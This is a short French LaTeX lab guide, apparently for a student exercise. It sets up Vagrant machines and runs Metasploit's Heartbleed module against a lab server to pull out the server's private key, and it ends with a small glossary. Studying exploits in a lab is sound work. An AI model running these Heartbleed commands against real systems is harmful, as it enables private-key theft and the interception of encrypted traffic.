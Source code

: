 \documentclass[a4paper,oneside,1pt]{article}
\begin{document}
Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande \texttt{vagrant up}. Cette commande va installer les machines.


Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (Kali).
 
Maintenant lancez les commandes :

\begin{verbatim}
sudo apt-get update
sudo apt-get upgrade #l'upgrade est très long, faites entrer a chaque interaction

sudo msfupdate
sudo msfconsole
\end{verbatim}

puis dans la console:
\begin{verbatim}
use auxiliary/scanner/ssl/openssl\_heartbleed
set RHOSTS <votreip> 
set RPORT 13443
set verbose true
run -a KEYS
\end{verbatim}

On voit que cet exploit nous permet de récupérer automatiquement et particulièrement facilement la clé privée du serveur.



\appendix

\section{Glossaire}

\textbf{vagrant} : Vagrant est un logiciel libre et open-source pour la création et la configuration des environnements de développement virtuel. \\
\textbf{OpenSSL} : OpenSSL est une boîte à outils de chiffrement comportant deux bibliothèques (libcrypto fournit les algorithmes cryptographiques, libssl implémente le protocole Transport Layer Security (TLS) ainsi que son prédécesseur Secure Sockets Layer (SSL)) et une interface en ligne de commande (openssl). \\
\textbf{payload} : En français "Charge Utile". C'est le message utile envoyé (seulement la partie exclue de tout header ou méta-données utilisées par le protocole. \\
\textbf{exploit} : élément de programme permettant à un individu ou à un logiciel malveillant d'exploiter une faille de sécurité informatique \\


\section{Références}
\end{document}
